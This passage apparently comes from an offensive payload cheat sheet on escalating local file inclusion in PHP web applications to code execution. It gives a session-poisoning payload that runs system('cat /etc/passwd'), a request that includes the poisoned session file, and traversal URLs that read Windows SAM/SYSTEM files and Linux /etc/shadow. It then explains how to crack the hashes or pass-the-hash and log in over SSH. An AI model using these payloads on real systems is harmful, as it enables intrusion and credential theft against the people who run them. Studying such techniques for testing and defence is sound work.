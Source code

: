 Set the cookie to `<?php system('cat /etc/passwd');?>`

```
login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php
```

Use the LFI to include the PHP session file

```
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27
```

## **LFI to RCE via credentials files**

This method require high privileges inside the application in order to read the sensitive files.

### **Windows version**

First extract `sam` and `system` files.

```
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```

Then extract hashes from these files `samdump2 SYSTEM SAM > hashes.txt`, and crack them with `hashcat/john` or replay them using the Pass The Hash technique.

### **Linux version**

First extract `/etc/shadow` files.

```
http://example.com/index.php?page=../../../../../../etc/shadow
```

Then crack the hashes inside in order to login via SSH on the machine.

## **References**

[https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/](https://www.netsparker.com/blog/web-security/local-file-inclusion-vulnerability/)

[https://preetshah90.blogspot.com/2017/03/upcoming-directorypath-traversal-vs-lfi.html](https://preetshah90.blogspot.com/2017/03/upcoming-directorypath-traversal-vs-lfi.html)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

[https://medium.com/@asfiyashaikh10/file-path-traversal-and-file-inclusions-7c567da9e226](https://medium.com/@asfiyashaikh10/file-path-traversal-and-file-inclusions-7c567da9e226)
